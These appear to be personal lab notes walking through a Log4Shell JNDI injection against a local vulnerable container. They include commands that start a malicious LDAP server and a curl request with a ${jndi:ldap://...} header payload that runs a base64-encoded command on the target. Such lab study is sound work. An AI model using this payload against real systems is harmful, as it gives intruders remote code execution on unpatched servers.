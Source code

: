 Steps:
- Connect to the machine
- Test the network connectivity before you move forward:
````
curl http://ipaddr:8080
````
- Set up the malicious LDAP server
	- Start a new screen session `screen -S ldap`
	````
	sudo docker run --name log4jldapserver -p 1389:1389 -p 8888:8888 ppfles/log4shell-ldap-server
	````
- Send the malicious payload:
````
curl ipaddr:8080 -H 'X-Api-Version: ${jndi:ldap://my_ip_addr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZA==}'
````
NOTES:
- the -H option modifies one of the HTTP header files
- this specific application is logging the X-Api-Version field, so that's where you can inject the malicious code
- the string will start with jndi (Java Naming and Directory Interface). You are telling the app to use jndi, which then allows you to make a request with another protocol, in this case LDAP
- the /Basic/Coimmand/... is a base 64 command that is equal to `touch /tmp/pwned`

- Now cvheck the LDAP server to see its output. Connect back to that screen session with `screen -r ldap`
![[screen output.png]]
- Now, if you execute again the `sudo docker exec vulnapp2 ls /tmp` there must be a new file called pwned